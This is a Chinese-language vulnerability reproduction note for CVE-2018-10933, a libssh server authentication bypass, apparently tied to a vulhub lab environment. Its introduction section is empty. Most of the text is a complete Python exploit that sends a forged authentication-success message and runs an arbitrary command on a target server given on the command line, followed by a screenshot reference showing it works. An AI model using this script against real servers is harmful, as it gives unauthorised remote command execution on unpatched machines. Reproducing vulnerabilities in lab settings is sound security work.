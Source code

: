 （CVE-2018-10933）Libssh 服务端权限认证绕过漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

libssh的server-side state machine 0.7.6之前版本和0.8.4

三、复现过程
------------

    CVE-2018-10933.py
    #!/usr/bin/env python3
    import sys
    import paramiko
    import socket
    import logging

    logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
    bufsize = 2048


    def execute(hostname, port, command):
        sock = socket.socket()
        try:
            sock.connect((hostname, int(port)))

            message = paramiko.message.Message()
            transport = paramiko.transport.Transport(sock)
            transport.start_client()

            message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
            transport._send_message(message)

            client = transport.open_session(timeout=10)
            client.exec_command(command)

            # stdin = client.makefile("wb", bufsize)
            stdout = client.makefile("rb", bufsize)
            stderr = client.makefile_stderr("rb", bufsize)

            output = stdout.read()
            error = stderr.read()

            stdout.close()
            stderr.close()

            return (output+error).decode()
        except paramiko.SSHException as e:
            logging.exception(e)
            logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
        except socket.error:
            logging.debug("Unable to connect.")

        return None


    if __name__ == '__main__':
        print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))

使用python3执行，即可在目标服务器上执行任意命令：

![2.png](./.resource/(CVE-2018-10933)Libssh服务端权限认证绕过漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/libssh/CVE-2018-10933/
